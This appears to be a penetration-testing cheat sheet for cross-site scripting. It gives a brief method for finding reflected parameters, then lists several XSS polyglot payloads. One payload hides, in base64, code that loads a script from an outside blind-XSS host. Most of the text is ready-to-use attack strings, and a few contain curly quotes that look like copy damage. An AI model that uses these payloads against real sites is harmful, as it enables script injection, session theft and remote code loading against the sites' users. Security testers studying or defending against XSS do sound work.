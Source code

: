 # XSS

### Scope:
```
GET|POST parameters
Path
```

### Detect reflections

past some keyword for detecting reflections in response like ```PayloadHere``` and send request.
search in response keyword ```PayloadHere```
if keyword reflected than past xss payloads.

### XSS Polyglots:
```
%3C!%27/*!%22/*!\%27/*\%22/* — !%3E%3C/Title/%3C/script/%3E%3CInput%20Type=Text%20Style=position:fixed;top:0;left:0;font-size:999px%20*/;%20Onmouseenter=confirm`1`%20//%3E#
```
```
<!'/*!”/*!\'/*\"/* — !></Title/</script/><Input Type=Text Style=position:fixed;top:0;left:0;font-size:999px */; Onmouseenter=confirm`1` //>#
```
```
jaVasCript:/*-/*`/*\`/*'/*"/**/(/* */oNcliCk=alert() )//%0D%0A%0D%0A//</stYle/</titLe/</teXtarEa/</scRipt/ — !>\x3csVg/<sVg/oNloAd=alert()//>\x3e
```
```
">><marquee><img src=x onerror=confirm(1)></marquee>” ></plaintext\></|\><plaintext/onmouseover=prompt(1) ><script>prompt(1)</script>@gmail.com<isindex formaction=javascript:alert(/XSS/) type=submit>’ →” >
"></script><script>alert(1)</script>”><img/id="confirm&lpar; 1)"/alt="/"src="/"onerror=eval(id&%23x29;>'">"><img src=x id=dmFyIGE9ZG9jdW1lbnQuY3JlYXRlRWxlbWVudCgic2NyaXB0Iik7YS5zcmM9Imh0dHBzOi8vYnhzcy54c3MuaHQiO2RvY3VtZW50LmJvZHkuYXBwZW5kQ2hpbGQoYSk7 onerror=eval(atob(this.id))>
```
```
" onclick=alert(1)//<button ' onclick=alert(1)//> */ alert(1)//
```
```
';alert(String.fromCharCode(88,83,83))//';alert(String. fromCharCode(88,83,83))//";alert(String.fromCharCode (88,83,83))//";alert(String.fromCharCode(88,83,83))// →</SCRIPT>">'><SCRIPT>alert(String.fromCharCode(88,83,83)) </SCRIPT>
```

